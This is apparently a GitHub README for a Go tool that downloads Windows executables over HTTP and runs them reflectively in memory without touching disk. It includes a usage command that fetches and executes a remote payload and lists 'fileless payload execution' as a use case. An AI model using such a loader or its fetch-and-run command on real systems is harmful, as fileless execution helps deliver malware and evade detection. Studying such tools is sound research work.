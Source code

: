 # go http memexec

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory and never writes them to disk
- **Pure Go Implementation**: 100% Go code with no CGO dependencies (thank you binject/debug you guys are truly the goats)
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **TLS Callback Support**: Properly handles TLS callbacks in PE files
- **Simple API**: Single command to download and execute payloads

## How It Works

go http memexec uses a sophisticated reflective PE loading technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Parses the PE file structure using the Binject/debug/pe package
3. Maps the PE file into memory with proper section permissions
4. Resolves imports and fixes relocations
5. Handles TLS callbacks properly
6. Executes the payload by jumping to its entry point

## Usage

```bash
# Basic usage with default URL
./go-http-memexec

# Specify a custom download URL
./go-http-memexec https://example.com/payload.exe
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution

## Technical Details

The project is built entirely in Go:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing using the Binject/debug/pe package
- Properly handles relocations, import resolution, and TLS callbacks
- Sets appropriate memory protections for PE sections
- Executes code directly from memory with no disk I/O

## Build Instructions

```bash
# Get dependencies
go mod tidy

# Build the executable
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- Go 1.20 or later

## Notes
- This project has only been tested on Windows 10
- This is a rewrite of the original C++-based implementation, now in 100% pure Go

## License

[MIT License](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations. 